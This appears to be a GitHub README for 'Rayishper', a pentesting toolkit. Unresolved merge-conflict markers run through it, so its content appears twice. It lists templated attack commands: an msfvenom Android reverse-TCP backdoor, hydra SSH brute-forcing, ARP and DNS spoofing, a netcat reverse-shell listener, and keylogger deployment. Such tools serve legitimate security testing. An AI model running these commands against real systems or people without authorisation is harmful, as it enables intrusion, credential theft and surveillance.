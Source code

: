 <<<<<<< HEAD
# Rayishper Pentesting Toolkit

Rayishper is a customizable and automated toolkit designed for cybersecurity enthusiasts and professionals. Originally inspired by manual note-taking on cybersecurity tasks, Rayishper automates a variety of common pentesting activities to streamline your workflow.

## Table of Contents

- [Introduction](#introduction)
- [Features](#features)
- [Installation](#installation)
- [Dependencies](#dependencies)
- [Usage](#usage)
- [Commands Overview](#commands-overview)
- [License](#license)

## Introduction

Rayishper started as a simple note-taking practice to assist with various cybersecurity tasks. It has now evolved into an automated toolkit that can perform a wide range of pentesting activities such as password cracking, network sniffing, social engineering, and more.

## Features

- **Password Cracking:** Automate brute-force attacks using tools like John the Ripper and aircrack-ng.
- **Network Attacks:** Perform ARP spoofing, DNS spoofing, port scanning, and packet sniffing.
- **Payload Generation:** Create custom payloads for Android devices using Metasploit.
- **Social Engineering:** Launch social engineering attacks using the SET toolkit.
- **File and Directory Management:** Automate common file and directory operations like viewing, deleting, and scanning.
- **Script Automation:** Convert repetitive manual tasks into automated scripts.

## Installation

Clone the Rayishper repository:

```bash
git clone https://github.com/your-repo/rayishper.git
cd rayishper

## Make the script executable:
chmod +x rayishper.py

## Install the required dependencies:
=======
Rayishper Pentesting Toolkit
Rayishper is a customizable and automated toolkit designed for cybersecurity enthusiasts and professionals. Originally inspired by manual note-taking on cybersecurity tasks, Rayishper automates a variety of common pentesting activities to streamline your workflow.

Table of Contents
Introduction
Features
Installation
Dependencies
Usage
Commands Overview
License
Introduction
Rayishper started as a simple note-taking practice to assist with various cybersecurity tasks. It has now evolved into an automated toolkit that can perform a wide range of pentesting activities such as password cracking, network sniffing, social engineering, and more.

Features
Password Cracking: Automate brute-force attacks using tools like John the Ripper and aircrack-ng.
Network Attacks: Perform ARP spoofing, DNS spoofing, port scanning, and packet sniffing.
Payload Generation: Create custom payloads for Android devices using Metasploit.
Social Engineering: Launch social engineering attacks using the SET toolkit.
File and Directory Management: Automate common file and directory operations like viewing, deleting, and scanning.
Script Automation: Convert repetitive manual tasks into automated scripts.
Installation
Clone the Rayishper repository:

bash
Copy code
git clone https://github.com/your-repo/rayishper.git
cd rayishper
Make the script executable:

bash
Copy code
chmod +x rayishper.py
Install the required dependencies:

bash
Copy code
>>>>>>> d00bc1dc23f8f0f9be69d2b8140de3f6b85850c5
sudo apt-get update
sudo apt-get install python3 python3-pip metasploit-framework nmap hydra tcpdump aircrack-ng john setoolkit
Ensure that all tools used in the script are correctly installed and accessible in your PATH.

<<<<<<< HEAD
## Dependencies: 
=======
Dependencies
>>>>>>> d00bc1dc23f8f0f9be69d2b8140de3f6b85850c5
The Rayishper script relies on the following tools and libraries:

Python 3: The core programming language used in the script.
Metasploit Framework: For payload generation, reverse shell listeners, and exploitation.
nmap: For network scanning and discovery.
Hydra: For brute-forcing SSH logins.
Tcpdump: For packet sniffing and network analysis.
Aircrack-ng: For wireless network cracking.
John the Ripper: For password cracking.
Social Engineering Toolkit (SET): For social engineering attacks.
<<<<<<< HEAD

## Usage
## To run Rayishper:
./rayishper.py

## Main Menu
=======
Ensure that Kali Linux is your base operating system as it includes most of these tools pre-installed.

Usage
To run Rayishper:

bash
Copy code
./rayishper.py
Main Menu
>>>>>>> d00bc1dc23f8f0f9be69d2b8140de3f6b85850c5
When you start the script, you'll be prompted with the following options:

Hello Neo, what's the magic word?: Type "red pill" to access the main menu.
Main Menu Options: Choose from various pentesting actions such as deploying keyloggers, scanning networks, or generating payloads.
<<<<<<< HEAD

## Commands Overview

=======
Commands Overview
>>>>>>> d00bc1dc23f8f0f9be69d2b8140de3f6b85850c5
Below is a summary of the main commands used within Rayishper:

VF685 Hack
Description: Automate hacking a specific VF685 target.
Command: python3 VF685.py
<<<<<<< HEAD

Keylogger Deployment
Description: Start a keylogger that logs keystrokes to a file.
Command: python3 keylog.py

Payload Creation
Description: Generate a custom Android payload using Metasploit.
Command: msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} R> {location}/{Backdoor_name}

SSH Brute-Force
Description: Perform a brute-force attack on SSH login.
Command: hydra -l {username} -P {wordlist} ssh://{target_ip}

Network Scanning
Description: Scan a target IP for open ports and services.
Command: nmap -sV {target_ip}

ARP Spoofing
Description: Perform ARP spoofing to intercept traffic.
Command: sudo arpspoof -i eth0 -t {target_ip} -r {gateway_ip}

Reverse Shell Listener
Description: Start a netcat listener for reverse shells.
Command: nc -lvnp {lport}

DNS Spoofing
Description: Spoof DNS responses on a network.
Command: sudo dnsspoof

## License
This project is open-source and available under the MIT License.
=======
Keylogger Deployment
Description: Start a keylogger that logs keystrokes to a file.
Command: python3 keylog.py
Payload Creation
Description: Generate a custom Android payload using Metasploit.
Command: msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} R> {location}/{Backdoor_name}
SSH Brute-Force
Description: Perform a brute-force attack on SSH login.
Command: hydra -l {username} -P {wordlist} ssh://{target_ip}
Network Scanning
Description: Scan a target IP for open ports and services.
Command: nmap -sV {target_ip}
ARP Spoofing
Description: Perform ARP spoofing to intercept traffic.
Command: sudo arpspoof -i eth0 -t {target_ip} -r {gateway_ip}
Reverse Shell Listener
Description: Start a netcat listener for reverse shells.
Command: nc -lvnp {lport}
DNS Spoofing
Description: Spoof DNS responses on a network.
Command: sudo dnsspoof
License
This project is open-source and available under the MIT License.
>>>>>>> d00bc1dc23f8f0f9be69d2b8140de3f6b85850c5
